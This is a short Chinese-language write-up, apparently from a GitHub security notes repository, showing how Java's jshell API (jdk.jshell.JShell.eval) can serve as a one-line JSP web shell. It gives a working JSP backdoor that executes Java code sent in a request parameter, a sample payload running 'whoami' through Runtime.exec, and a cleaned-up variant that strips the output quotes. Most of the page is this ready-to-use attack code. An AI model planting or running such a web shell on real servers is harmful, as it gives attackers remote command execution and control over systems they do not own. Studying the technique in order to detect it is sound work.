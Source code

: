 # JSshell

## 前言

从`JDK9`开始提供了`JSshell`的功能，`jshell`是一个`REPL(Read-Eval-Print Loop)`命令行工具，提供了一个交互式命令行界面，通过`jshell`可以不需要编写类就能执行Java代码片段。

命令行进入`JSshell`

![image-20220926181953736](images/image-20220926181953736.png)

## 代码执行

`jshell`不仅是一个命令行工具，在我们的应用程序中同样也可以调用`jshell`内部的实现API，也就是说我们可以利用`jshell`来执行Java代码片段而不再需要将Java代码编译成class文件后执行了。

`jshell`调用了`jdk.jshell.JShell`类的`eval`方法来执行我们的代码片段，那么我们只要想办法调用这个`eval`方法也就可以实现真正意义上的一句话木马了。

一句话木马实例：

```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("dotast"))%>
```

传入本地命令执行代码
```java
new String(Runtime.getRuntime().exec("whoami").getInputStream().readAllBytes())
```

![image-20220926182323410](images/image-20220926182323410.png)

去除干扰项可以修改成：
```jsp
<%=jdk.jshell.JShell.builder().build().eval(request.getParameter("dotast")).get(0).value().replaceAll("^\"", "").replaceAll("\"$", "")%>
```

![image-20220926182704352](images/image-20220926182704352.png)
